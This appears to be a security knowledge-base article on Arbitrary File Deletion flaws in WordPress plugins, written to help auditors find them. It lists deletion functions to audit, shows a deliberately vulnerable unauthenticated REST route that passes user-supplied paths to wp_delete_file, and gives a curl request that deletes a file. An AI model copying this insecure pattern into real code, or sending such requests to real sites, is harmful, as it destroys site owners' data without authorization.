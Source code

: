 ```yaml
---
title: Arbitrary File Deletion
contributors:
    - rafiem
---
```


## Introduction

This article covers cases of possible Arbitrary File Deletion on WordPress. This includes improper file or directory deletion handling inside of the plugin/theme which can be used to delete arbitrary local files and directories inside of the server.

## Useful Functions

Several functions could be useful to identify a possible Arbitrary File Deletion vulnerability:

- PHP related
    - [`unlink`](https://www.php.net/manual/en/function.unlink.php)
    - [`rmdir`](https://www.php.net/manual/en/function.rmdir.php)

- WordPress related
    - [`wp_delete_file`](https://developer.wordpress.org/reference/functions/wp_delete_file/)
    - [`wp_delete_file_from_directory`](https://developer.wordpress.org/reference/functions/wp_delete_file_from_directory/)
    - [`WP_Filesystem_Direct::delete`](https://developer.wordpress.org/reference/classes/wp_filesystem_direct/delete/)
    - [`WP_Filesystem_Direct::rmdir`](https://developer.wordpress.org/reference/classes/wp_filesystem_direct/rmdir/)

## Example Cases

Below is an example of vulnerable code:

```php
add_action("init", "rest_init_setup");

function rest_init_setup(){
    register_rest_route( "myplugin/v1", '/deletemedia/', array(
        'methods'                   =>  "POST",
        'callback'                  =>  'delete_media_upload',
        'permission_callback' => '__return_true',
    ) );
}

function delete_media_upload($request){
    $args = json_decode($request->get_body(),true);
    $data = array('status'=>false);
    if(!empty($args['media']) ){
        wp_delete_file( $args['media']['file'] );
        $data = array('status'=>true);
    }
    return new WP_REST_Response( $data, 200 );
}
```

To exploit this, any unauthenticated user just needs to perform a POST request to the `/wp-json/myplugin/v1/deletemedia` endpoint specifying the needed parameter to trigger the `wp_delete_file` function.

```bash
curl <WORDPRESS_BASE_URL>/wp-json/myplugin/v1/deletemedia -d '{"media":{"file":"<WORDPRESS_BASE_DIRECTORY>/license.txt"}}' -H 'Content-Type: application/json'
```
